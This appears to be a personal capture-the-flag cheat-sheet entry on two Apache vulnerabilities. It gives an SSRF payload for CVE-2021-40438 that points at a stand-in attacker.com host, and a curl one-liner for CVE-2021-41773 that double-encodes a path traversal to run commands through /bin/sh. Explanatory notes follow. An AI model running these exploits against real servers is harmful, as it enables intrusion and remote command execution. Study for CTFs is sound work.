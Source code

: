 # Apache

## Apache <=2.4.48 (CVE-2021-40438)

Exploit: 
```
/?unix:{"A"*4096}|http://attacker.com/ 
```

Null pointer deference causes SSRF

**Details:**

- Doesn't seem to work using Python requests - use curl or burp instead.
- Seems to only work for intranet SSRF? (Greyhats 2022, grapache)



## Apache 2.4.49-50 LFI2RCE (CVE-2021-41773)

Exploit: `curl 'http://example.com/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo; ls'`
This is a very advanced exploit, and I shall keep it here for reference until I can understand it one day...

**Details:**

- target binary should be +x (default for /bin/sh)
- Needs `mod_cgi` enabled in Apache config (not default)
- Apache needs path traversal perms granted for `/bin` or `/` (usually not the case!)

`cgi-bin` - a(n obsolete) folder that is used to store and serve static content in Apache. It tells the server how to pass data to and from an application.

This exploit is a form of path traversal: it goes to `cgi-bin`, then `.%%32%65/` (../ dot in urlencoded twice) up to root and down to `/bin/sh`. It's urldecoded twice (once by filter, once by backend). In Apache v2.4.49, double encoding is not necessary, but in v2.4.50 it is.

`--data` - POST request with input into /bin/sh 

CTF application: if the challenge seems to hint that it's Apache + path traversal, do consider this!
